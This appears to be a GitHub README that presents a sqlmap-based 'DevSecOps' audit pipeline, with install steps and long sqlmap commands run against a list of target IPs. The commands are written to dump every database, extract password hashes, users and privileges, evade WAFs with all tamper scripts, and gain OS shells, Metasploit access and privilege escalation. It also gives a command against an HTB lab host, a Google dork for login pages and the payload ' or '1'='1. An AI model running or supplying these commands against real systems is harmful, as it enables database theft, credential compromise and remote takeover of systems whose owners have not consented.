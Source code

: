 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.5.1.17#dev} 



[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## 1. Install python 2.7

https://gist.github.com/4k4xs4pH1r3/2196035667b41107d903ebc5a771d956

#
## 2. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version
       
#       
## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD with metasploit

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=MySQL --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,escapequotes,greatest,halfversionedmorekeywords,htmlencode,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,modsecurityversioned,modsecurityzeroversioned,multiplespaces,overlongutf8,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --alert=x -v 6
#

## Create the Pipeline CI/CD without metasploit

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch -y
    neofetch
    sudo sqlmap -f -b -o -m ~/SA/ad/ad_ips -t ~/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=MySQL --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,escapequotes,greatest,halfversionedmorekeywords,htmlencode,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,modsecurityversioned,modsecurityzeroversioned,multiplespaces,overlongutf8,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE  --tmp-dir=~/.sqlmap/history --beep --dependencies --unstable --alert=x -v 6

    sqlmap -u 'http://imagetok.htb:32531/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --beep --cleanup --fresh-queries --threads=10

       
## Start & Monitoring of the Pipeline CI/CD

       cd ~/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh
#       
       tail -f /root/.sqlmap/output/sqlmap_scan
               
## 3. Analize/Purge the Injections Results

of each host that you are looking for (CSV format) 
Include: Target URL; Place; Parameter; Technique(s) and Note(s) at

       cd
       cd /root/.sqlmap/output/

#
#
#
# Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

# Supported DBMSes are as follows:

Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.
     
    --dbms=MySQL
    
    --no-cast 
    
    --no-escape 

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell
    
    --sql-shell
    
    
    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump

    
    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k
    
    :)


inurl:website.test/login.asp

' or '1'='1
